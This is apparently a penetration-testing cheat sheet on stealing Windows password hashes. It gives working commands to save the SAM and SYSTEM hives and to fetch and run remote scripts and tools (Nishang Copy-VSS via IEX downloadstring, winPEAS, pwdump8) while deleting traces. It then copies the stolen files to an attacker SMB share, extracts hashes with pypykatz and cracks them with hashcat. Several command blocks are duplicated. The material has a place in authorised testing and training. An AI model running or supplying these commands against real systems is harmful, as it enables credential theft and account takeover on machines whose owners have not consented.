




SAM
Where are stored the hashes in Windows
By default, the SAM file is locked on a running system, and inaccessible to all users including administrative users! Since we cannot read the file directly on the disk volume, there are a few alternative tricks to get hold of the data. The local security authentication sub-system process (LSASS.EXE) on a running windows system reads this data and caches it in memory.
LANMAN and NT Hashes are stored:
• in the SAM file:
C:\Windows\System32\config\sam• in the SAM registry:
HKEY_LOCAL_MACHINE\SAM• If an NT file system recovery was performed in the past, and the Administrator has not removed the backup data, you might be able to find the SAM file in the directory:
◇ %SystemRoot%\repair
◇ C:\windows\repair
◇ C:\winnt\repair
◇ C:\Windows\System32\config\RegBack
• In Active Directory, password representations (both LANMAN and NT hashes by default) are stored in the file
%systemroot%\ntds\ntds.dit in the Domain
Controller.With the ntds.dit file, a penetration tester can run a suite of tools by Csaba Barta, which are designed for a forensics analysis of ntds.dit files. These tools have the capability to locate and pull out hashes from a copy of the ntds.dit file
Dump hashes as normal User
1. save the SAM and SYSTEM file
◇ save from registry
#powershell
PS> reg save hklm\system "$env:userprofile\desktop\SYSTEM"
PS> reg save hklm\sam "$env:userprofile\desktop\SAM"
#cmd
C:\> reg save hklm\system "%userprofile%\desktop\SYSTEM"
C:\> reg save hklm\sam "%userprofile%\desktop\SAM"
PS> reg save hklm\system "$env:userprofile\desktop\SYSTEM"
PS> reg save hklm\sam "$env:userprofile\desktop\SAM"
#cmd
C:\> reg save hklm\system "%userprofile%\desktop\SYSTEM"
C:\> reg save hklm\sam "%userprofile%\desktop\SAM"
◇ search with gci in paths:
PS> gci -Path C:\Windows\System32\config,%SystemRoot%\repair,C:\windows\repair,C:\winnt\repair,C:\Windows\System32\config\RegBack -Include SAM,SYSTEM -File -Recurse -EA SilentlyContinue
◇ Use Nishang Copy-VSS.ps1 automated script: https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Copy-VSS.ps1
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Copy-VSS.ps1');Copy-VSS
◇ Search with WinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet cmd filesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";

2. Copy files on the attacker machine
1) Create a shared smb folder on the attacker machine
root@kali:/# python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .

2) Copy file from the target to the attacker
copy C:\Users\user\Desktop\SYSTEM \\192.168.147.139\tools\SYSTEM
copy C:\Users\user\Desktop\SAM \\192.168.147.139\tools\SAM
copy C:\Users\user\Desktop\SAM \\192.168.147.139\tools\SAM

3. Extract the hashes
To do that we can use a python version of mimikatz → pypykatz
#Install prerequirements
root@kali:/# pip3 install minidump minikerberos aiowinreg msldap winacl
#clone repo
root@kali:/# git clone https://github.com/skelsec/pypykatz.git
root@kali:/# cd pypykatz
#install
root@kali:/# python3 setup.py install
root@kali:/# pip3 install minidump minikerberos aiowinreg msldap winacl
#clone repo
root@kali:/# git clone https://github.com/skelsec/pypykatz.git
root@kali:/# cd pypykatz
#install
root@kali:/# python3 setup.py install
root@kali:/# pypykatz registry <SYSTEM-file> --sam <SAM-file>

4. Crack the hash
root@kali:/# hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt

Dump hashes as Admin
• To dump them we can execute from the Windows machine pwdump tool like this one:
https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
pwdump8 by Fulvio Zanetti and Andrea Petralia of blackMath.it
Supported machines: Windows 2000/XP/Vista/7/2008/8/8.1/10/2012/2016/2019
PS> (new-object System.Net.WebClient).DownloadFile("https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\pwdump8\pwdump8.exe";Remove-Item -Path "$env:userprofile\desktop\pwdump8 -recurse";Remove-Item -Path "$env:userprofile\desktop\file.zip";